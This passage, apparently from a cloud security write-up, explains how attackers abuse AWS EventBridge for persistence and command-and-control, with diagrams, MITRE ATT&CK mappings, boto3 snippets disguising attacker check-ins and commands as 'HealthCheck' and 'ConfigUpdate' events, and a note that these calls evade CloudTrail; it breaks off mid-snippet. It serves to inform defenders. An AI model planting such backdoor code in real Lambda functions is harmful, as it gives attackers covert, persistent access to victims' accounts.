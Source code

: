 | Compromised | | Victim's | | Cross-Account |
| Lambda in +----->| EventBridge +----->| Rule +----->
| Victim Account | | (Account A) | | |
+------------------+ +-------------------+ +------------------+
Sends regular Forwards events based Attacker recieves
"check-in" events on pattern matching & processes events
The attacker adds code to an existing Lambda function that sends a small message every hour:
# Added to an existing Lambda function
events = boto3.client('events')
events.put_events(
Entries=[{
'Source': 'system.monitor', # Looks innocent
'DetailType': 'HealthCheck',
'Detail': json.dumps({"id": "12345", "status": "active"}),
'EventBusName': 'default'
}]
)
These messages look like normal system health checks but confirm to the attacker that they still have access. What makes this attack particularly concerning is that Eventbridge PutEvents API call operations are data plane calls not logged by CloudTrail, making detection difficult. The attack creates a persistent backdoor that operates through legitimate AWS services, bypassing traditional network monitoring tools. Success depends on having sufficient permissions to establish the cross-account event flow.
### Attack 2: Command and Control - "Remote Control"
**MITRE ATT &CK Connection:**Command and Scripting Interpreter (T1059), Non-Standard Protocol (T1095)
Attackers can use EventBridge to send commands to compromised systems and receive responses, creating a hidden communication channel that bypasses firewalls and network monitoring. This bidirectional control channel enables attackers to maintain access and execute commands without establishing direct network connections that might trigger security alerts.
+-------------+ +-------------+ +------------------+
| | | | | |
| Attacker +------->| EventBridge +------->| Compromised |
| | | | | Lambda |
+------+------+ +-------------+ +--------+---------+
^ |
| |
| v
| +-------------+ +-------+----------+
| | | | |
+---------------+ EventBridge |<-------+ Results sent |
| | | back |
+-------------+ +------------------+
Command and Control Flow
The attacker sets up a two-way communication channel, sending commands hidden in normal-looking events:
events.put_events(
Entries=[{
'Source': 'maintenance.system',
'DetailType': 'ConfigUpdate',
'Detail': json.dumps({
'component': 'logger',
'config': {